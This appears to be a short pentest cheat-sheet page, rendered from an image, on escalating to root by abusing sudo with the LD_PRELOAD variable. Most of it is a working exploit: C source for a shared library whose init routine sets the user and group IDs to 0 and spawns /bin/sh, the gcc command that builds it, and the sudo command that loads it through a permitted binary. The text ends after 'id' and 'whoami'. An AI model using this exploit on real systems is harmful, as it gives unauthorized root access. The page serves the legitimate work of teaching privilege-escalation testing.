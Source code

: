 # LD_PRELOAD
If you have Sudo permissions of a binary but you cannot escape into a shell, you can cause the binary to load a shared object (library), which in turns, if contains the code, will grant you root. To cause this, LD_PRELOAD must point to your .so file. For this, you need Sudo permission for LD_PRELOAD as well.

### Steps to exploit:

1. **Generate a C program**:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
...and save it like shell.c

2. **Compile it to generate a  shared object with .so extension** (akin to .dll file in the Windows operating system):
  ```
  gcc -fPIC -shared -o shell.so shell.c -nostartfiles // Compiling shell.c to make the shared library shell.so
  ls -al shell.so // Checking
  sudo LD_PRELOAD=/tmp/shell.so find // Abusing sudo to change LD_PRELOAD path to the .so file, then running a command that you're permitted to run as Sudo.
  
  id
  whoami
